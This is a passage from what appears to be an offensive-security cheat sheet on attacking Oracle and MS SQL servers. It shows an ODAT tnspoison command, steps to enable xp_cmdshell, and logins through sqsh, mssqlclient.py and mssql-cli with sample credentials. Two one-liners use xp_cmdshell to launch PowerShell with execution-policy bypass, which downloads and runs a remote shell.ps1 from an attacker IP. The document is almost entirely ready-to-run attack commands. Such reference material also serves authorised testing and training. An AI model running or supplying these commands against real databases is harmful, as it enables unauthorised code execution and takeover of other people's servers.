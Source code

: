 Usage:

* [github.com/quentinhardy/odat/wiki/tnspoison](https://github.com/quentinhardy/odat/wiki/tnspoison)

```
$ python3 odat.py tnspoison -s 127.0.0.1 -d CLREXTPROC --test-module
```



### MS SQL


#### Enable xp_cmdshell

```
1> EXEC sp_configure 'show advanced options', 1
2> GO
1> RECONFIGURE
2> GO
1> EXEC sp_configure 'xp_cmdshell', 1
2> GO
1> RECONFIGURE
2> GO
1> EXEC sp_configure 'xp_cmdshell', 1
2> GO
1> xp_cmdshell 'whoami'
2> GO
```


#### sqsh

```
root@kali:$ sqsh -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
1> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.234/shell.ps1')"
2> GO
```


#### mssqlclient.py

```
root@kali:$ mssqlclient.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 [-windows-auth]
SQL> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.14.234/shell.ps1\")"
```


#### mssql-cli

* [github.com/dbcli/mssql-cli](https://github.com/dbcli/mssql-cli)

```
root@kali:$ python -m pip install mssql-cli
root@kali:$ mssql-cli -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)